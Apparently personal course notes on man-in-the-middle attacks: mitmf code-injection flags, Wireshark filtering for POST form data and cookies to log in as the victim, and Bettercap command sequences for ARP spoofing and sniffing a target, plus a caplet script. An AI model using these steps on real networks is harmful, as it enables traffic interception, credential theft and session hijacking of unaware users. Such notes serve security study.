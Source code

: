 * Code can be:
        * stored in a file --js-file or --html-file
        * stored online --js-url or --html-url
        * supplied through command line --js-payload or --html-payload

## Using mitmf against real network

* use the same way as before
* Check if Kali machine is only connected with one interface (disconnect ethernet interface)

## Wireshark and use with mitmf -> check version with bettercap (simpler)

* Wireshark is a network protocol analyser
* Designed to help network admin to keep track of what is happening in their network
* It logs packets that flow through the selected interface and analyse all packets
* It the case of a MITM attack, it only sniff packet that go through the attacker computer, not the network or the targeted machine itself

### Analyse packets -> check version with bettercap (simpler)

* open file or click on interface to listen to packet
* type "http" to filter http packets
* to get form data, filter with http and look for POST request and then HTTP form info
* Filter packet content via Edit > Find Packet > Packet Details > String
* Filter cookies via http.cookie, then use the cookie info to log in

### Use Bettercap for MITM attacks -> much easier

* Bettercap is a framework to run network attacks, can be used to ARP Spoof targets (redirect flow of packets), Sniff Data (url, username, passwords), bypass HTTPS, redirect domain request (DNS spoofing), inject code in loaded pages

                bettercap -iface <interface>
                net.probe on => start net.probe module
                net.recon on

* First step: ARP Spoofing:

                bettercap -iface <interface>
                net.probe on
                net.recon on
                set arp.spoof.fullduplex true
                set arp.spoof.targets <IP target>
                arp.spoof on

* Second step: Spying on network devices

                net.sniff on

* Custom script -> caplet file .cap

                net.probe on
                net.recon on
                set arp.spoof.fullduplex true
                set arp.spoof.targets <IP target>
                arp.spoof on
                net.sniff on
